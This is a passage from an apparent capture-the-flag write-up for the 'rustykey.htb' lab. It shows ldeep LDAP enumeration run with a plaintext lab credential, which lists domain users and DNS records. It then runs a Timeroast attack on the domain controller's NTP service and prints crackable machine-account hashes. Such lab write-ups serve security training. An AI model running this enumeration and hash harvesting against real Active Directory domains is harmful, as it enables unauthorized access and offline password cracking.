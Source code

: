 
I finally discover ldeep at this point. It's now a staple in my windows enumeration.

```sh
 ldeep ldap -u 'rr.parker' -p '8#t5HE8L!W3A' -d rustykey.htb -s ldap://rustykey.htb -t simple users all
backupadmin
nn.marcos
ee.reed
dd.ali
gg.anderson
bb.morgan
mm.turner
rr.parker
krbtgt
Guest
Administrator
```

```sh
 ldeep ldap -u 'rr.parker' -p '8#t5HE8L!W3A' -d rustykey.htb -s ldap://rustykey.htb -t simple zone rustykey.htb
[+] Domain records:
it-computer3 A 10.10.14.81
tokusucks A 10.10.14.81
it-computer31UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA A 10.10.14.81
foobar A 10.10.14.81
fubar A 10.10.14.81
rustykey.htb1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA A 10.10.14.81
fubar.rustykey.htb1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA A 10.10.14.81
dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA A 10.10.14.81
ForestDnsZones AAAA dead:beef::67b:dc61:d4f4:7ec2
ForestDnsZones A 10.129.174.88
DomainDnsZones AAAA dead:beef::67b:dc61:d4f4:7ec2
DomainDnsZones A 10.129.174.88
dc AAAA dead:beef::67b:dc61:d4f4:7ec2
dc A 10.129.174.88
_msdcs NS dc.rustykey.htb
@ AAAA dead:beef::67b:dc61:d4f4:7ec2
@ NS dc.rustykey.htb
@ A 10.129.174.88
```

The first hint I got asked "Have you ever heard of timeroasting?". I had not. But boy was it easy.

By querying the NTP service we can do shenanigans to pull a list of machines and associated crackable-hashes to try to divine a password. https://github.com/SecuraBV/Timeroast


```python
!python Timeroast/timeroast.py dc.$target | tee timeroast.crack
```

    1000:$sntp-ms$06da8a02e61737db25ceced8c503fae2$1c0111e900000000000a05e54c4f434cec15da3e98118cf0e1b8428bffbfcd0aec15e2053be884b9ec15e2053be8a499
    1103:$sntp-ms$22c202ddc989a82b8fff75b90096ec37$1c0111e900000000000a05e64c4f434cec15da3e981719f7e1b8428bffbfcd0aec15e205fbeddc11ec15e205fbee4415
    1104:$sntp-ms$99e22d6053eced4accff6e0412341e3e$1c0111e900000000000a05e64c4f434cec15da3e981b1cbbe1b8428bffbfcd0aec15e205fbf1f7ffec15e205fbf23e76
    1105:$sntp-ms$a1f639dfbd90bc41e40e2ce1356c33c7$1c0111e900000000000a05e64c4f434cec15da3e942c73fce1b8428bffbfcd0aec15e205fc1be60fec15e205fc1c25d0
    1106:$sntp-ms$7cd4c4fdd2bddf96a1978f890b576c46$1c0111e900000000000a05e64c4f434cec15da3e94480e8ce1b8428bffbfcd0aec15e205fc37824dec15e205fc37bd05
    1107:$sntp-ms$84fa554ca1bc1a88db498461af574fa2$1c0111e900000000000a05e64c4f434cec15da3e9473f3ede1b8428bffbfcd0aec15e205fc634620ec15e205fc63a5c1
    1118:$sntp-ms$72bd98164427c17512914d74d59d4325$1c0111e900000000000a05e64c4f434cec15da3e949043afe1b8428bffbfcd0aec15e2061487584eec15e20614906a45